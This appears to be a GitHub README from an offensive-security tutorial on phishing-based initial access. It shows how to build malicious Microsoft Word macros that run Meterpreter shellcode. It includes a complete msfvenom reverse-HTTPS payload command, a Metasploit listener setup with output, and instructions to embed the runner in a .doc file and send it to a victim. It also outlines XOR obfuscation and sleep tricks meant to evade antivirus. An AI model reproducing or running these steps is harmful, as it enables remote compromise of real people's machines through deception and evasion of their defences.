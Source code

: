 # Initial Access via Phishing

This is for Microsoft Office Word. We assume we are using meterpreter to catch the shell and we will be generating payloads according to the Windows Office version present on the victim. **Generally x86 for Office 2016 and x64 for Office 2021/365**

We start with the simplest payload which is to create a direct VBA shellcode runner with no obfuscation and then escalate accordingly with obfuscation, powershell and C# usage.

[Round 1: The Simple Direct VBA Shellcode Runner]()



# Round 1: The Simple Direct VBA Shellcode Runner
**Traits**
- As simple as it gets. All VBA with help from Win32APIs
- Unlikely to evade AV
- Dies the moment the victim closes Word. So you need to migrate to another process quick or you have some pretexting magic to keep the victim on the Word document


The malicious payload generated as such:

```bash
msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.XX.XX LPORT=443 EXITFUNC=thread -f vbapplication
```

Open Listener
```bash
msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_https
payload => windows/meterpreter/reverse_https
msf6 exploit(multi/handler) > set LHOST tun0
LHOST => tun0
msf6 exploit(multi/handler) > set LPORT 443
LPORT => 443
msf6 exploit(multi/handler) > set EXITFUNC thread
EXITFUNC => thread

```

Slot the below into a macro in a .doc file, and send it to the victim who hopefully will be dumb enough to open and enable macro and stare at the document in disbelief while your shellcode runs.

Remember to change whatever that is in the buf variable to the shellcode generated by msfvenom!

![Simple VBA Shellcode Runner here](SimpleDirectVBARunner.vba)

# Round 2: The Obfuscated Direct VBA Shellcode Runner

- With Sleep Function to dodge Heuristics detection
- With single byte XOR encryption of shellcode
- Need to XOR your shellcode with the ![XOR_Helper](..\XOR_Encoder_Helper\xor_encoder.cs) courtesy of https://github.com/chvancooten/OSEP-Code-Snippets/blob/main/XOR%20Shellcode%20Encoder/Program.cs

